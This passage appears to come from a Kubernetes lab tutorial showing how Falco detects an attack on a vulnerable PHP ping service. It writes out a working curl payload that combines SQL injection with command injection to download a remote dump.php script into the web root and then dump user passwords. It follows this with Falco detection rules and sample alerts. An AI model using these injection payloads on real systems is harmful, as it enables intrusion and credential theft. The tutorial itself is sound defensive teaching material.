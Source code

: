 Once the attacker knows the login details for the database, he could easily write a small rogue program, and place it in our server

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; curl https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php > /var/www/html/dump.php " -X POST http://ping/ping.php`{{execute}}

Finally, he could get a dump of the database contents, including the table with all our users and their passwords.

`kubectl exec client -n ping -- curl http://ping/dump.php`{{execute}}

Detection with Falco
--------------------

Falco help us detect this kind of attacks thanks to these custom rules:

```yaml
- rule: Apache writing to non allowed directory
  desc: Attempt to write to directories that should be immutable
  condition: open_write and container and k8s.ns.name=ping and k8s.deployment.name=ping and not (ping_allowed_dirs and proc.name in (apache2))
  output: "Writing to forbidden directory (user=%user.name command=%proc.cmdline file=%fd.name)"
  priority: ERROR
  tags: [filesystem]

- rule: Forbidden network outbound connection
  desc: A non-whitelisted process is trying to reach the Internet
  condition: outbound and container and k8s.ns.name=ping and k8s.deployment.name=ping and not proc.name in (ping, apache2)
  output: Forbidden outbound connection (user=%user.name command=%proc.cmdline connection=%fd.name)
  priority: ERROR
  tags: [network]
```

Take a look at the logs generated by Falco:

`kubectl logs --selector app=falco`{{execute}}

You should see something like:

```log
18:44:04.581760211: Error Writing to forbidden directory (suer=www-data command=sh [...] file=/var/www/html/dump.php) [...]
18.44.04.590718953: Error Forbidden outbound connection (user=www-data command=curl https:// [...]
```
